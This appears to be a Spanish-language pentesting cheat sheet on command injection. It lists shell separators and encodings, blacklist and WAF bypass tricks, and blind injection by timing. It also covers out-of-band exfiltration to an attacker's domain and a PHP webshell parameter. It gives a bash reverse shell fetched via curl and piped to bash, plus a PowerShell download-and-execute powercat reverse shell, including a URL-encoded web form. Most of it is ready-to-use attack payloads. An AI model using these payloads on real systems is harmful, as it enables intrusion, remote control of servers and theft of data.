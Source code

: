 siempre que se haga una consulta sobre un item a un backend contastar si es posible una injección de comando aparte de una sqli, 
algunos backends corren código para hacer querys sobre aplicaciones légacy ;)

|Nombre | simbolo | hexa | argumento a ejecutar|
|----|---|---|---|
|Semicolon |	; |	%3b |	Both |
|New Line 	| \n |	%0a |	Both | 
|Background | 	& | 	%26 |	Both (second output generally shown first)|
|Pipe 	   |   \| |	\%7c |	Both (only second output is shown) |
|AND 	|     && |	%26%26 |	Both (only if first succeeds)|
|OR 	  |     \|\| |	\%7c%7c |	Second (only if first fails) |
|Sub-Shell | `` |	%60%60 |	Both (Linux-only)|
|Sub-Shell | $() |	%24%28%29 |	Both (Linux-only)|

podemos luego de encontrar el conector entre comandos, si hay algún filtro posterior utilizar diferentes secuencias:


## Test

    test"&&ls"

${IFS} inserta un espacio y una tabulación y luego el comando


{ls,-la} agrega comandos como argumentos y agregando espacios en los mismos

para bypassear blacklisted characters se puede utilizar una extracción del caracter del index de una variable de entorno:


${PATH:0:1} (en este caso estaríamos extrayendo el caracter del index 0 de la variable PATH que sería "/"


$env:HOMEPATH[0] mismo ejemplo en windows

podemos concatenar estas técnicas, ej:


127.0.0.1%0a{ls,${PATH:0:1}home}

SQL Injection 	' , ; -- /* */


Command Injection 	; &&


LDAP Injection 	* ( ) & |


XPath Injection 	' or and not substring concat count


OS Command Injection 	; & |


Code Injection 	' ; -- /* */ $() ${} #{} %{} ^


Directory Traversal/File Path Traversal 	../ ..\\ %00


Object Injection 	; & |


XQuery Injection 	' ; -- /* */


Shellcode Injection 	\x \u %u %n


Header Injection 	\n \r\n \t %0d %0a %09



### bypass command blacklisted

podemos agregar caracteres que no son tomados en cuenta en linux y windows como las comillas simples y dobles entre la morfologia del comando

who'am'i

who"am"i

##### Linux only:
who$@ami

w\ho\am\i

##### Windows:
 who^ami

podemos encontrarnos otras medidas como firewalls que nos bloqueen los comandos, con lo cual podemos utilizar diferentes técnicas de bypass:
Case manipulation:

WhOaMi 

Para las terminales case-sensitive como la terminal de linux, podemos utilizar comandos como:

  $(tr "[A-Z]"%09"[a-z]"<<<"WhOaMi")

  
o aplicando un reversing:

##### Linux:

  $(rev<<<'imaohw')

##### Windows:
  iex "$('imaohw'[-1..-20] -join '')"

#### Encodear un comando:

ejemplo de comando pasado a base64:

    echo -n 'cat /etc/passwd | grep 33' | base64

resultado: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

    payload: bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)


### Blind command injection
Podemos probar blind command injections utilizando comandos que incluyan un temporizador:

parametro= x||ping+-c+10+127.0.0.1||

Redirecting Output:
Podemos también crear archivos internos con la información de los comandos, de esta manera podremos luego visitar el archivo
creado y consultar el resultado:
parametro = || whoami > /var/www/static/whoami.txt ||

Out-of-band exfiltration:
x || nslockup 'whoami'.servidor-del-atacante.com ||
Nos llegara una request a un subdominio con los datos del comando ejecutado.


################## Code injection en un parametro php:
podemos crear una webshell en un parámetro php que ejecuta código de la siguiente manera:

        parameter = ${system($_GET[cmd])}&cmd=


### Obteniendo una shell:



##### crear la shell
        echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh

##### iniciar un servidor python y un netcat

##### Llamar a la páginacon curl:

##### inyectar código:
        test;curl${IFS}http://10.10.14.49:7000/rev.sh|bash;

##### Obtener una mejor shell:
        script /dev/null -c bash

## RCE en windows

    IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 

##### Levantamos un server python en la carpeta con powercat

##### modificado para web:

    <legit_command>%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F<IP>:8000%2Fpowercat.ps1%22)%3Bpowercat%20-c%20<IP>%20-p%20<port>%20-e%20powershell
